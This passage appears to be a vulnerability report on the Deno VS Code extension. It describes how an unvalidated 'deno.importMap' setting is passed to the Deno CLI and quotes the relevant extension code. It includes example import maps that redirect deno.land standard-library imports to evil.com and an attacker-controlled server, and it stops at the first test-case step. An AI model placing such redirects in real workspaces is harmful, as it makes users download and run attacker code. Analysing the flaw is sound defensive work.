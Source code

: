 **Preconditions:**
1. The attacker must be able to influence the `deno.importMap` setting in the user's VS Code workspace
2. The attacker must be able to host malicious code that will be loaded via the import map redirect
3. The user must import a module that matches a specifier redirected in the malicious import map

**Source Code Analysis:**
The vulnerability exists in how import maps are loaded and used in the extension:

1. In `client/src/commands.ts`, when setting up test execution, the extension reads the import map setting from configuration:
```typescript
if (!testArgs.includes("--import-map")) {
  const importMap: string | undefined | null = config.get("importMap");
  if (importMap?.trim()) {
    testArgs.push("--import-map", importMap.trim());
  }
}
```

2. Similarly, when initializing the Deno Language Server in `client/src/extension.ts`:
```typescript
initializationOptions: () => {
  const denoConfiguration = vscode.workspace.getConfiguration().get(
    EXTENSION_NS,
  ) as Record<string, unknown>;
  // ...
  return {
    ...denoConfiguration, // This passes the importMap setting to the language server
    // ...
  } as object;
}
```

3. The `importMap` setting is passed directly to the Deno CLI without any validation of its contents.

4. When Deno resolves imports, it uses the import map to redirect module specifiers, which could lead to loading and executing attacker-controlled code.

For example, if a malicious import map contains:
```json
{
  "imports": {
    "https://deno.land/std/": "https://evil.com/fake-std/"
  }
}
```

When a user imports `https://deno.land/std/http/server.ts`, Deno would instead load `https://evil.com/fake-std/http/server.ts`, which could contain malicious code.

**Security Test Case:**
To demonstrate this vulnerability:

1. Create a malicious import map file (malicious-map.json):
```json
{
  "imports": {
    "https://deno.land/std/": "https://attacker-controlled-server.com/fake-std/"
  }
}
```
